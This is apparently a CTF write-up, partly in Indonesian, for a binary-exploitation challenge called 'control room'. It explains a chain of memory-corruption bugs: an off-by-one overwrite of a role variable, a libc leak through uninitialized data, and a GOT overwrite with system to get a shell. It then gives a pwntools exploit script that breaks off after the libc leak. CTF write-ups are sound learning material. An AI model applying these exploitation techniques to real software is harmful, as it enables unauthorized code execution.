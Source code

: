```python

# reference solver from
# https://github.com/Mymaqn/HTBCA2023_Pwn_Writeups/tree/master/kana

# 0x49640 posix_spawn(rsp+0xc, "/bin/sh", 0, rbx, rsp+0x50, environ)
# constraints:
#   rsp & 0xf == 0
#   rcx == NULL
#   rbx == NULL || (u16)[rbx] == NULL
```

referensi write up : [https://github.com/Mymaqn/HTBCA2023_Pwn_Writeups/tree/master/kana](https://github.com/Mymaqn/HTBCA2023_Pwn_Writeups/tree/master/kana "https://github.com/Mymaqn/HTBCA2023_Pwn_Writeups/tree/master/kana")

# control room - PWN

untuk solve yang perlu dilakukan adalah mengganti role menjadi captain ada bug dimana memset inisialisasi memori max + 1 sehingga dapat overwrite variabel role, lalu leak dengan bug UDA dengan cara gagalin scanf tetapi variable akan tetap tercopy, change role ke technician, overwrite got dengan system menggunakan bug oob yang terdapat di fungsi configure_engine, kirim sh untuk mendapatkan shell

```python
#!/usr/bin/env python3

from pwn import *

exe = 'control_room'
elf = context.binary = ELF(exe, checksec=False)
libc = ELF('/usr/lib/libc.so.6', checksec=False)
context.log_level = 'warning'

cmd = '''
c
'''

if args.REMOTE:
    p = remote('localhost', 8000)
else:
    p = process()

### EXPLOIT HERE ###

# gdb.attach(p, cmd)

p.send(b'a'*256) # initialize username
p.sendline(b'n') # edit username
p.send(b'256')
p.send(b'a'*256) # a bug to overwrite role to 0

p.sendline(b'3')
p.sendline(b'uy') # u is terminating the scanf, y is saving, cannot be separated

p.sendline(b'4') # view our leak
p.recvuntil(b'Latitude  : ')
p.recvuntil(b'Latitude  : ')
p.recvuntil(b'Latitude  : ')
p.recvuntil(b'Latitude  : ')
p.recvuntil(b'Latitude  : ')
p.recvuntil(b'Longitude : ')
leaked_libc = int(p.recvline().strip())
libc.address = leaked_libc - (libc.symbols.atoi+20)
print(f'libc base = {hex(libc.address)}')
```
